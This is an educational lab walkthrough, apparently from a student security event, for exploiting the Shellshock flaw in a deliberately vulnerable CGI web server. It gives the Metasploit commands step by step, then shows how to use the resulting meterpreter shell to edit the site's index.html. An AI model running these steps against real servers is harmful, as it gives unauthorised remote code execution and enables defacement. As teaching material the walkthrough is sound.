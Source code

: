 # RITSEC Academic Day - ShellShock 

## Viewing the Website

Open your browser and head to http://<TARGET_IP>:8080

## Setup
- Open 'VMWare Workstation Pro'
- Click on 'Kali Linux 2021' on the left side list of VMs
- Right click again on 'Kali Linux 2021' and click 'Settings'. 
![settings](settings.PNG)
    - Select 'Network Adapter' and change it to 'Bridged'
    ![bridge](bridge.PNG)
- Click the Black Box with the "$_" to open the terminal.
![terminal](terminal.PNG)

## Attacking the Box - Commands To Run
This will open the Metasploit Console.
1. `msfconsole`

![landing](landing.PNG)

Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`

![search](search.PNG)

This is selecting the shellshock exploit.

3. `use 1`

![use1](use1.PNG)

This is seeing the module and payload options that will be configured.

4. `options`

![options](options.PNG)

Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`

![targeturi](targeturi.PNG)

Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Setting the port the website is being hosted on.

7. `set rport 8080`

![rport](rport.PNG)

Attack the box!

7. `exploit`

![exploit](exploit.PNG)

## Modifying the Website

With your meterpreter shell, now you can modify the website. 

Most websites by default keep their files in `/var/www`. In our case, the `index.html` file contains the main page of the website. 

Use the `edit /var/www/index.html` command to edit the file. Add your name to the website!

![edit](edit.PNG)


- Once you are in the text editor, press the 'i' key to go into insert mode.
- Use the arrow keys to move down to the < li > section
- Once you add your name, hit the 'ESC' key, type ':wq' and hit 'Enter'

![nameadd](nameadd.PNG)

Now visit the website in your browser and see your name publicly hosted on the target site!!